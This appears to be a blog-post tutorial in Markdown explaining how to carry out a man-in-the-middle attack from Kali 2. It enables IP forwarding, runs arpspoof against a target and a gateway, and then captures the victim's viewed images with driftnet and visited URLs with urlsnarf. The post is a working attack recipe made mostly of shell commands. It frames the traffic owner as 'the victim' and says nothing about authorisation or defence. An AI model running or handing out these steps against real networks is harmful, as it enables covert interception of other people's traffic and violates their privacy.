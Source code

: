 ```yaml
---
layout: post
title: "How To Perform A Man In The Middle Using Kali 2"
category: Hacking
description: "Learn how to perform a man in the middle using Kali 2 with arpspoof. Caputure images and urls."
---
```


![Man in the middle](/images/mitm.png)

Today we'll be looking at how to perform a Man In The Middle to capture images and urls by the victim.

Requirements are [Kali 2](https://www.kali.org)

# 1. Open 3 terminals

![Three terminals](/images/step1.png)

# 2. Set up port forwarding

Run this command and if the output is 0 then we need to change it to 1

```shell
$ cat /proc/sys/net/ipv4/ip_forward
```

<br>

```shell
$ echo 1 >> /proc/sys/net/ipv4/ip_forward
```

![Step 2](/images/step2.png)

# 3. Run arpspoof

first

```shell
$ arpspoof -i eth0 targetiphere gatewayiphere
```

![step 3](/images/step3.png)

and then in another terminal

```shell
$ arpspoof -i eth0 gatewayiphere targetiphere
```

![step 4](/images/step4.png)

# 4. Run driftnet

This will capture images opened by the victim and display them in the black box.

```shell
$ driftnet -i eth0
```

![step 5](/images/step5.png)

### Bonus: Run urlsnarf to capture http requests

```shell
$ urlsnarf -i eth0
```
